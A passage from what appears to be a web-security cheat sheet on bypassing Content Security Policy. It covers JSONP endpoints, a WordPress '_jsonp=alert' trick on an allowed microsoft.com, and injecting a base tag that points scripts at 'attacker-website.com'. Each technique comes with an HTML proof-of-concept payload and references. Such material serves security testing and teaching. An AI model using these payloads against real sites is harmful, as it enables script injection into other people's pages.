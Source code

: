The exploitation does not require `unsafe-inline` because the JSONP response handler script must be allowed in the CSP to serve legitimate requests.

References:
- [JSONBee](https://github.com/zigoo0/JSONBee) contains ready-to-use JSONP endpoints on different websites.

### Allowed microsoft.com in script-src by [@OctagonNetworks](https://twitter.com/octagonnetworks/status/1652793272161509377)

It is possible to bypass a CSP if it allows `microsoft.com` in `script-src` due to the CSP bypass found in WordPress.

```html
<head>
    <meta http-equiv=Content-Security-Policy content="script-src https://www.microsoft.com;">
</head>
<body>
    <script src=https://www.microsoft.com/en-us/research/wp-json?_jsonp=alert></script>
</body>
```

References:
- [Bypass CSP Using WordPress By Abusing Same Origin Method Execution](https://octagon.net/blog/2022/05/29/bypass-csp-using-wordpress-by-abusing-same-origin-method-execution/)

## Missing or misconfigured base-uri

If `base-uri` is omitted or set to `*` in a Content Security Policy, it is possible to redirect relative URLs to an attacker-controlled website by injecting the `base` element, check out [HTML Injection: base](/Web%20Application/HTML%20Injection/base.md).

```html
<head>
    <meta http-equiv="Content-Security-Policy" content="script-src 'self' 'nonce-secret';">
</head>
<body>
    <base href='https://attacker-website.com'>
    <script nonce=secret src=/script.js></script>
</body>
```

The snippet above uses the `nonce` attribute value without even knowing it.

References:
- [Write up: CSP bypass by base tag injection](https://ctftime.org/writeup/11452)

## Missing default-src, frame-src or object-src

If a Content Security Policy does not contain `default-src`, `frame-src` or `object-src`, it is possible to combine other misconfigurations with tags injection to achieve arbitrary code execution.

For example, it is possible to use `iframe` to bypass restrictions on `script-src`, such as `script-src 'none'`, `script-src 'self'`, `script-src 'nonce-*'` or `script-src 'hash-*'`.
